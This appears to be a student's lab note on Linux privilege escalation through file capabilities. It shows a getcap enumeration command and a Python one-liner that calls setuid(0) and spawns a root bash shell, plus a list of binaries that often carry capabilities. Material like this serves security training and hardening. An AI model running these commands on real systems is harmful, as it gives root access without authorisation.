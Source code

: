 # Hunting for capabilities

To find the avaliable capabilities in the system we need to run:
```bash
getcap -r / 2>/dev/null
```
- ![[Pasted image 20250117153831.png]]
- here we have 1 capability set
- `+ep` is for permit everything

So all capabilities are enabled.


So in this case we can try to use python to escalate:
```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash)'
```
- ![[Pasted image 20250117154156.png]]

We cna see that we got a root shell.


This works because we have a capability for `python2.6` that permits everything.


# Command generally with capabilities

The tools that generally have capabilities are:
- `tar`
- `perl`
- `openssl`


In general always use:
```bash
getcap -r / 2>/dev/null
```

And then search on google.

